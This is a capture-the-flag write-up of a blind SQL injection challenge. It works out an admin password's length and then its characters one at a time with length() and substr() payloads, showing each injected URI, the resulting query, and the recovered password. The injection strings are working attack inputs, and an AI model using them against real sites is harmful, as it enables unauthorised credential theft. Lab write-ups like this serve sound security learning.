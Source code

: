 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3bcdaeff-a4ba-4e3c-8acd-73e2ec8ce6d9)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
`
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8a33f464-e7de-4d4a-a47c-7285e7d69ea9)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
`
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9d922a6a-4f1e-4b4a-a3bd-e8d8b721ba3e)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/b1e4352c-c272-4fb7-8401-7d5fe2cc4423)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
`
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/53f17b2b-b80d-4b8e-a904-bd88c1cbb7f3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
`
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/7abdfbc4-b2e1-4448-ad7e-8e38484d4cc1)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 %23
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/fcc7790e-333b-4b3c-b197-bfc02f67788d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852' %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/cee48c8e-2e61-4ccd-93fc-2abe7fb6d417)
